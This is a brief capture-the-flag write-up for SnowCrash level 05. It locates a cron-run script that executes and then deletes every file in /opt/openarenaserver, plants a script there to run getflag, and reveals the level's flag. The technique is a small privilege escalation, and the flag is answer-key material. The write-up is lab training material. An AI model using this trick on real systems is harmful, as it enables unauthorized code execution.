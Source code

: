 # Level 05

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script executes all files in the /opt/openarenaserver then removes them

We create a file and wait for the script to be ran (in a cron ?)

```bash
echo "getflag > /tmp/toto" > opt/openarenaserver/toto.sh
```

```bash
cat /tmp/toto
```

**Flag:** viuaaale9huek52boumoomioc
